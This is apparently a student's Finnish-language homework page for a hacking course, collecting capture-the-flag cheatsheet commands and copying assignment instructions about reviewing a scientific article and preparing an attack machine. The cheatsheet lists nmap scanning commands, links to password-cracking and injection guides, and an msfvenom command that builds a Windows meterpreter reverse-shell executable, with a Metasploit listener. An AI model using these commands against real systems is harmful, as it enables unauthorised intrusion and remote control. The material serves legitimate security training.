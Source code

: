 # h6 Lähtölaskenta

Lipunryöstö lähestyy, ja samalla kurssin päätös. Nyt valmistaudutaan lipunryöstöön, ja kurssin jälkeiseen elämään. Tieteellisten artikkeleiden silmäily auttaa oppariaiheen valinnassa. Harjoitusmaalit opettavat käytännön hakkerointia.

## a) Cheatsheet. Kerää parhaat komennot lipunryöstöä varten.

# nmap : https://www.stationx.net/nmap-cheat-sheet/

    Yksinkertainen skannaus yhdelle IP-osoitteelle:
    nmap <IP-osoite>

    Skannaus useille IP-osoitteille:
    nmap <IP-osoite1> <IP-osoite2> <IP-osoite3> ...
    
    Skannaus IP-osoitealueelle:
    nmap <alkuosoite>-<loppuosoite>
    Esim: nmap 192.168.1.1-254

    Skannaus käyttäen CIDR-notaatiota:
    nmap <verkkopolkun-IP>/<maski-bittien-määrä>
    Esim: nmap 192.168.1.0/24

    Skannaus yhdestä tai useammasta IP-osoitteesta, jotka on lueteltu tiedostossa:
    nmap -iL <tiedoston-nimi>

    Skannaus yhdestä tai useammasta satunnaisesti valitusta IP-osoitteesta:
    nmap -iR <lukumäärä>
    Esimerkiksi: nmap -iR 100

    Skannaus tietyn palvelimen kaikkia IP-osoitteita:
    nmap <verkkotunnus>
    Esim: nmap google.fi

    Skannauksen tekeminen, joka ohittaa käyttöoikeuden tarkistukset ja on nopeampi:
    nmap -Pn <IP-osoite>


# sql injektio: https://portswigger.net/web-security/sql-injection/cheat-sheet

# fuff: https://cheatsheet.haax.fr/web-pentest/tools/ffuf/

# Jhon the ripper: https://www.stationx.net/how-to-use-john-the-ripper/ https://terokarvinen.com/2023/crack-file-password-with-john/

# hashcat: https://denizhalil.com/2023/11/01/hashcat-password-cracking/ https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

# kerberos: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a


# msfvenom/metasploitable : https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

    msfconsole
    use multi/handler/payload
    SET payload 
    SET LHOST 
    SET LPORT 
    run -j

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.x LPORT=80 -f exe > payload.exe

    sessions -i 1


# zap




# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.
"review" - yleensä katsausartikkeli nimessä on sana "review". Se pyrkii antamaan käsityksen alan tutkimuksesta juuri tällä hetkellä. Scholarlissa on myös nappi, jolla se yrittää näyttää vain review-artikkelit.
Tuoretta, jos ei löydy alle 2v, niin edes alle 5v.
1 <= jufo. Julkaistu arvostetussa vertaisarvioidussa lehdessä. Eli lehti löytyy Jufosta eli Julkaisufoorumin portaalista https://jfp.csc.fi/, ja sen taso on vähintään yksi.
Myös muualta kuin lehden kotisivulta ladattu kappale julkaistua artikkelia kelpaa, esim "final draft" sopii.
Ei yleistajuisia kirjoja tai lehtiartikkeleita: ei Mikrobitti, ei Tietotekiikan perusteet osa I, ei "Tiede 2000" -aikakauslehti
Älä maksa artikkeleista. Yleensä ilmainen latauslinkki löytyy Google Scholarlista oikealta. Haaga-Helian maksamat saa näkyviin Settings: Library Links: Haaga-Helia.
Englanninkielinen käyttöliittymä toimii paremmin https://scholar.google.com/ncr
Olennaisin sisältö tiivistelmään. Ei pelkkää metatekstiä tai artikkelin kuvailua:
Väärin: "Artikkeli kertoo uusista tuulista tietotekniikan parissa. Mukana on yllättävä havainto kiristyshaitakkeista"
Oikein: "Kiristyshaitakkeiden määrä kasvoi 30% vuoden 2023 aikana Foobarstanissa"
Suppeahko tiivistelmä ranskalaisilla viivoilla riittää
Kannattaa lisätä omat huomiot tai kysymykset mukaan. Merkitse selkeästi, mitkä ovat omaa pohdintaa.
Jos artikkeli on pitkä (yli 4 sivua), voit silmäillä sen lukemisen sijasta.

# c) Valmiina lipunryöstöön. Asenna läppärillesi tarvittavat työkalut lipunryöstöön. Hyökkäyskone voi olla virtuaalikone.
Se ei saa sisältää luottamuksellisia tietoja, koska sitä voi olla tarpeen tarkistaa ja tutkia harjoituksen yhteydessä.
Koneella saatetaan ajaa testibinäärejä ja kontteja; sekä tarkastamiseen liittyviä ohjelmia. Harjoituksessa saattaa olla Docker-kontteja, kokeile, että Docker toimii (Muistaakseni 'sudo apt-get -y install docker.io').
